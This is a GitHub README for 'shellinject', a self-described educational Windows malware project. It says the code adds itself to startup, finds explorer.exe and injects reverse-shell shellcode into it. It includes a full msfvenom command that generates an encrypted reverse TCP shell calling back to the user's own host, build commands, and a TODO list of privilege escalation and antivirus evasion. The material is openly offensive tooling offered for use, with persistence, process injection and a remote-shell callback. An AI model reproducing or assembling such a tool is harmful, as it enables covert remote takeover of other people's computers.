 # shellinject for edu  ONLY!



code explain the code is writing itself to windows startup then it finding the pid of explorer.exe 
and injecting shell code in my example its reverse_shell 

------------------------------------------------------------------------------------

you nead to change the pass to the virus.ex in here + you can change the auto startup name 


![Screenshot (10)](https://github.com/masterconi/shellinject/assets/85493153/e2e35cd5-d164-4bbd-b0d8-e62d3cbdaec2)


-----------------------------------------------------------------------------------


before use change the shellcode to your shellcode you can generate it useing msfvenom 
for example ```msfvenom --platform windows --arch x64 EXITFUNC=thread -p windows/x64/shell/reverse_tcp_rc4 LHOST=YOURE_IP LPORT=YOURE_PORT RC4PASSWORD=YOURE_PASS EXITFUNC=thread -f c --var-name=ucReverseShell```
copy it to here  
![Screenshot (8)](https://github.com/masterconi/shellinject/assets/85493153/d8ef7109-650f-40f0-af7f-aad2e9be4628)


-------------------------------------------------------------------------------------

plus you can change the executeble to be injected in here :
![Screenshot (9)](https://github.com/masterconi/shellinject/assets/85493153/02713da7-7695-45b3-9ef7-bed1fbe6e6c4)

------------------------------------------------------


to build the repo try to do it with g++ or msvs

g++ example :``` g++ add_to_startup.cpp find_pid.cpp shellinj.cpp -o shellinj.exe```

sorry idk how copy it to msvc  ¯\\_(ツ)_/¯

----------------------------------------------------

why i did it ?

i have nothin to do at holidays :-D

--------------------------------------------------------
TODO :add priv esc , make hard to detect , make the shell code encrypted , make the shell code inject "vir.dll" , make readme.md more beautiful (✿◡‿◡)



i would be happy to get help thanks
